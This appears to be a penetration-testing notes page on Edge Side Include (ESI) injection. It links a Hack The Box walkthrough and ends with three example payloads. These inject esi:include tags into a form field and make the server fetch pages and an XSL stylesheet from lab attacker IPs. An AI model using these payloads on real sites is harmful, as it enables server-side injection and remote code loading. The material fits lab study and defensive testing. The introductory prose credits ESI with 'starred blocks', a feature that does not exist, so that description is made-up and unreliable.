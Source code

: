 ```yaml
---
tags:
  - Enumeration
  - TCP
  - HTTP
  - Concepts
  - Vulnerabilities
  - HyperTextTransferProtocol
---
```

Edge Side Include (ESI) is a markup language and protocol used for dynamic web content assembly. It allows for the inclusion of fragments of content from different sources into a single web page, improving performance and scalability by offloading processing tasks to the edge servers.

One of the key features of ESI is the use of starred blocks, which are placeholders within the markup that indicate where dynamic content should be inserted. These starred blocks can be filled with content from various sources, such as backend servers, caching layers, or third-party APIs, allowing for a highly flexible and modular approach to content assembly.

By using ESI and starred blocks, developers can create dynamic web pages that are fast, scalable, and easily maintainable. This technology is particularly useful for websites with high traffic volumes or complex content requirements, as it allows for efficient caching strategies and reduces server load by distributing processing tasks across multiple edge servers.

Overall, ESI and starred blocks offer a powerful solution for managing dynamic web content and optimizing performance at the edge of the network. By leveraging these technologies, developers can create responsive and engaging web experiences that meet the demands of modern online users.

# Walkthrough

* [HTB: Quick | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/08/29/htb-quick.html)

# Example

```
title=test&msg=test&id=TKT-7261<esi:include src="http://10.10.14.47/poc.html" />
```

```
<esi:include src="http://192.168.49.190/poc.html" />
```

```
<esi:include src="http://localhost/" stylesheet="http://10.10.14.47/esi.xsl">
</esi:include>
```
